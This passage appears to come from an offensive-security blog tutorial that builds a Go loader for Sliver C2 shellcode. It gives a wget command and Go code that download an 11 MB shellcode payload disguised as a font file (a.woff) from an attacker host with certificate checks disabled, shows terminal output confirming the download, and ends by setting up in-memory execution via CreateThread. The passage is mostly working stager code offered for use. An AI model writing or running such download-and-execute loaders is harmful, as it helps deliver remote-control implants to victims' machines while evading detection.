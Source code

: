 The only thing left for us to execute out sliver's shellcode is to put our shellcode into this. Before changing the code, let's use golang to get shellcode first

## Download shellcode

Similar to `wget --no-check-certificate https://192.168.122.62/a.woff .` way to download our shellcode and output a `a.woff` file, we download shellcode from `https://192.168.122.62/a.woff` and output to file `shellcode.txt`

``` go
func main() {
    url := "https://192.168.122.62/a.woff"

    // ignore tls certficate error
	tr := &http.Transport{
		TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
	}
    // http get download
	client := &http.Client{Transport: tr}
	resp, err := client.Get(url)
	if err != nil {
		fmt.Println(err)
	}
    // body will be shellcode
	body, err := io.ReadAll(resp.Body)
	if err != nil {
		fmt.Println(err)
	}
    // write the shellcode to a file
    err = os.WriteFile("shellcode.txt", body, 0644)
    if err != nil {
        fmt.Println(err)
    }
}

```

Let's run this program and compare the output with the shellcode we download using `wget`

```
# Init project named blogcode
root# go mod init blogcode

root# go run main.go
root# ls -lh shellcode.txt
-rw-r--r-- 1 root root 11M Jul 25 14:16 shellcode.txt
root# diff shellcode.txt a.woff -s
Files shellcode.txt and a.woff are identical
```

## Download and execute

Great! now we have shellcode in our code with type `[]byte` for us to use! Next step is to run the shellcode instead of writing them to file. We need to copy the previous `CreateThread`'s code to our project and change it
